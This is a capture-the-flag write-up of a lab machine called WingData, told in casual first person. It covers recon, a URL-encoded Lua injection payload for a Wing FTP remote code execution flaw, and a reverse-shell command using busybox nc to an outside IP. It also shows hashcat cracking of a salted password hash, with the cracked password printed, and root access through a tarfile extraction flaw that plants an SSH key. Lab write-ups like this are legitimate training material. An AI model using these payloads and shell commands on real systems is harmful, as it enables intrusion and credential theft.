









## Machine WingData (Active) 


- first we run an nmap scan : 
```
❯ nmap -sC -sV 10.129.7.191
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-16 22:55 +0100
Nmap scan report for wingdata.htb (10.129.7.191)
Host is up (0.28s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 a1:fa:95:8b:d7:56:03:85:e4:45:c9:c7:1e:ba:28:3b (ECDSA)
|_  256 9c:ba:21:1a:97:2f:3a:64:73:c1:4c:1d:ce:65:7a:2f (ED25519)
80/tcp open  http    Apache httpd 2.4.66
|_http-server-header: Apache/2.4.66 (Debian)
|_http-title: WingData Solutions
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.09 seconds
```
\
- first of all theres an ssh port , and a web port, we dont have credentials for the ssh, so let's check the web page.
- Theres nothing really ineteresting in the page except for the "client portal" which leads to a login page "ftp.wingdata.htb/login.html"
```
❯ ffuf -u http://FUZZ.wingdata.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.wingdata.htb" -s
===========================
ftp

```
-so we found that ftp is the only subdomain.

- time for some burpsuite and testing (to get an idea of how their login works)\

so this is how the login flow works, there's something quite interesting, username_val and password_val, im not quite sure whats the point from it but let's keep it in mind just in case.

- I was stuck for like 20 minutes and i was reading the html and js code from the browser and i found something really interesting :\
  \
  hidden input fields ;0
  lets make them shown and test them\
  there they are !\
  \
  lets test the request now
  well its the hidden ones that resemble the username_val and password_val , and guess what , they're the ones actually tested. 


  - let's ignore that i was stuck there for another 20 minutes, I tried to think out of the box, and look what i found !\
  \
  this exact version had a recent RCE vulnerability, let's try to use it

  well from what i read , i understand that to use the exploit u have to have Anonymous login enabled, and its quite easy, use this payload : ``` username=anonymous&password=&remember=true``` \
  and fr it did log me in this time !

  alright, now lets test a login payload from the rce cve: 
    ``` username=anonymous%00]]%0dlocal%20h%20%3d%20io.popen(%22id%22)%0dlocal%20r%20%3d%20h%3aread(%22*a%22)%0dh%3aclose()%0dprint(r)%0d--&password=&remember=true ```
    (url encoded)

    its working !\
    \
    now (from what i read from this cve documentation, we shall check /dir.html for possible code execution (while using the same cookie -UID))
    

    HELL YEAH, its working. we can see the output of our lua code (```io.popen("id")```) \
    alright, lets get a shell !
    

- after lots and lots of trying I for some reason can't open a shell, lets try the poc from the CVE's page:
   ``` 
    python3 poc.py -u http://ftp.wingdata.htb/ -c 'busybox nc 10.10.16.55 9000 -e sh'
   ```
   
   ```
    nc -lnvp 9000
   ```

   after getting a reverse shell finally, i started scanning the whole directory file by file for any possible helpful information, I came across this: 
   ```
    /opt/wftpserver/Data/1/users/wacky.xml
  <?xml version="1.0" ?>
  <USER_ACCOUNTS Description="Wing FTP Server User Accounts">
      <USER>
          <UserName>wacky</UserName>
          <EnableAccount>1</EnableAccount>
          <EnablePassword>1</EnablePassword>
          <Password>32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca</Password>
          <ProtocolType>63</ProtocolType>
          <EnableExpire>0</EnableExpire>
          <ExpireTime>2025-12-02 12:02:46</ExpireTime>
          <MaxDownloadSpeedPerSession>0</MaxDownloadSpeedPerSession>
          <MaxUploadSpeedPerSession>0</MaxUploadSpeedPerSession>
          <MaxDownloadSpeedPerUser>0</MaxDownloadSpeedPerUser>
          <MaxUploadSpeedPerUser>0</MaxUploadSpeedPerUser>
          <SessionNoCommandTimeOut>5</SessionNoCommandTimeOut>
          <SessionNoTransferTimeOut>5</SessionNoTransferTimeOut>
          <MaxConnection>0</MaxConnection>
          <ConnectionPerIp>0</ConnectionPerIp>
          <PasswordLength>0</PasswordLength>
          <ShowHiddenFile>0</ShowHiddenFile>
          <CanChangePassword>0</CanChangePassword>
          <CanSendMessageToServer>0</CanSendMessageToServer>
          <EnableSSHPublicKeyAuth>0</EnableSSHPublicKeyAuth>
          <SSHPublicKeyPath></SSHPublicKeyPath>
          <SSHAuthMethod>0</SSHAuthMethod>
          <EnableWeblink>1</EnableWeblink>
          <EnableUplink>1</EnableUplink>
          <EnableTwoFactor>0</EnableTwoFactor>
          <TwoFactorCode></TwoFactorCode>
          <ExtraInfo></ExtraInfo>
          <CurrentCredit>0</CurrentCredit>
          <RatioDownload>1</RatioDownload>
          <RatioUpload>1</RatioUpload>
          <RatioCountMethod>0</RatioCountMethod>
          <EnableRatio>0</EnableRatio>
          <MaxQuota>0</MaxQuota>
          <CurrentQuota>0</CurrentQuota>
          <EnableQuota>0</EnableQuota>
          <NotesName></NotesName>
          <NotesAddress></NotesAddress>
          <NotesZipCode></NotesZipCode>
          <NotesPhone></NotesPhone>
          <NotesFax></NotesFax>
          <NotesEmail></NotesEmail>
          <NotesMemo></NotesMemo>
          <EnableUploadLimit>0</EnableUploadLimit>
          <CurLimitUploadSize>0</CurLimitUploadSize>
          <MaxLimitUploadSize>0</MaxLimitUploadSize>
          <EnableDownloadLimit>0</EnableDownloadLimit>
          <CurLimitDownloadLimit>0</CurLimitDownloadLimit>
          <MaxLimitDownloadLimit>0</MaxLimitDownloadLimit>
          <LimitResetType>0</LimitResetType>
          <LimitResetTime>1762103089</LimitResetTime>
          <TotalReceivedBytes>0</TotalReceivedBytes>
          <TotalSentBytes>0</TotalSentBytes>
          <LoginCount>2</LoginCount>
          <FileDownload>0</FileDownload>
          <FileUpload>0</FileUpload>
          <FailedDownload>0</FailedDownload>
          <FailedUpload>0</FailedUpload>
          <LastLoginIp>127.0.0.1</LastLoginIp>
          <LastLoginTime>2025-11-02 12:28:52</LastLoginTime>
          <EnableSchedule>0</EnableSchedule>
      </USER>
  </USER_ACCOUNTS>
  ```
alright, we got a username and a password, good progress, the password is obviously hashed, after some looking online, it appears to be a sha-256 hash, so we need the salting string.

- for like 20 minutes of looking arround different xmls, i found this : 
``` <SaltingString>WingFTP</SaltingString> ``` \
great, we can crack it now : 
```
  hashcat -m 1400 -a 6 32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca /usr/share/wordlists/rockyou.txt 'WingFTP'
``` 
AND YES ! 
we got ``` !#7Blushing^*Bride5 ``` ; \
since we got a username and a password lets try to ssh in : \
 \
there we are !
we got the user flag ! 

now lets go on the hunt for the root's flag:\
im looking for priv esc vectors, im not sure but i prolly found something : \


the python code we can execute as root is the following : 
```
  #!/usr/bin/env python3
  import tarfile
  import os
  import sys
  import re
  import argparse

  BACKUP_BASE_DIR = "/opt/backup_clients/backups"
  STAGING_BASE = "/opt/backup_clients/restored_backups"

  def validate_backup_name(filename):
      if not re.fullmatch(r"^backup_\d+\.tar$", filename):
          return False
      client_id = filename.split('_')[1].rstrip('.tar')
      return client_id.isdigit() and client_id != "0"

  def validate_restore_tag(tag):
      return bool(re.fullmatch(r"^[a-zA-Z0-9_]{1,24}$", tag))

  def main():
      parser = argparse.ArgumentParser(
          description="Restore client configuration from a validated backup tarball.",
          epilog="Example: sudo %(prog)s -b backup_1001.tar -r restore_john"
      )
      parser.add_argument(
          "-b", "--backup",
          required=True,
          help="Backup filename (must be in /home/wacky/backup_clients/ and match backup_<client_id>.tar, "
              "where <client_id> is a positive integer, e.g., backup_1001.tar)"
      )
      parser.add_argument(
          "-r", "--restore-dir",
          required=True,
          help="Staging directory name for the restore operation. "
              "Must follow the format: restore_<client_user> (e.g., restore_john). "
              "Only alphanumeric characters and underscores are allowed in the <client_user> part (1–24 characters)."
      )

      args = parser.parse_args()

      if not validate_backup_name(args.backup):
          print("[!] Invalid backup name. Expected format: backup_<client_id>.tar (e.g., backup_1001.tar)", file=sys.stderr)
          sys.exit(1)

      backup_path = os.path.join(BACKUP_BASE_DIR, args.backup)
      if not os.path.isfile(backup_path):
          print(f"[!] Backup file not found: {backup_path}", file=sys.stderr)
          sys.exit(1)

      if not args.restore_dir.startswith("restore_"):
          print("[!] --restore-dir must start with 'restore_'", file=sys.stderr)
          sys.exit(1)

      tag = args.restore_dir[8:]
      if not tag:
          print("[!] --restore-dir must include a non-empty tag after 'restore_'", file=sys.stderr)
          sys.exit(1)

      if not validate_restore_tag(tag):
          print("[!] Restore tag must be 1–24 characters long and contain only letters, digits, or underscores", file=sys.stderr)
          sys.exit(1)

      staging_dir = os.path.join(STAGING_BASE, args.restore_dir)
      print(f"[+] Backup: {args.backup}")
      print(f"[+] Staging directory: {staging_dir}")

      os.makedirs(staging_dir, exist_ok=True)

      try:
          with tarfile.open(backup_path, "r") as tar:
              tar.extractall(path=staging_dir, filter="data")
          print(f"[+] Extraction completed in {staging_dir}")
      except (tarfile.TarError, OSError, Exception) as e:
          print(f"[!] Error during extraction: {e}", file=sys.stderr)
          sys.exit(2)

  if __name__ == "__main__":
      main()
``` 

I tried to make sense of the script (in the sense of how to exploit it but i couldn't really find anything useful), I started looking online, and I found that there's a CVE (CVE-2007-4559) in the library of tarfile specifically the method ``` tar.extractall() ``` that followed whatever path provided inside the files of the tar (you can overwrite important files as root), which was patched in 2023 with ``` filter="data" ``` what this apparently does is block anything starting with ``` /``` or containing ``` .. ```  and also check symlinks and where they point (and block them if they point to something outside of the directory), this feels like a dead end tbh. \
well apparently, another CVE (CVE-2025-4517 / CVE-2025-43) XD

\
well lets use the CVE's poc now, (poc2.py)

first of all, since idk the root's password and since I cannot change the root password, I need a way to authenticate as root, i can create an ssh pair that the poc script will plant inside ``` /root/.ssh/authorized_key ``` which will grant me root access, i can do it with the command : 
``` ssh-keygen -t rsa -N "" -f /tmp/root_key``` \
now i can run the exploit on the ssh as the "wacky" user: 

\
the malicious tar is created, now we use the script that we have root's permission on to move the ssh pair into the athorized_key file: 
\
great, now now lets try to connect with ```ssh -i /tmp/root_key root@localhost``` and lets just hope it works,
 

YESSIR !!


i deadass spent 3 days solving it, finally !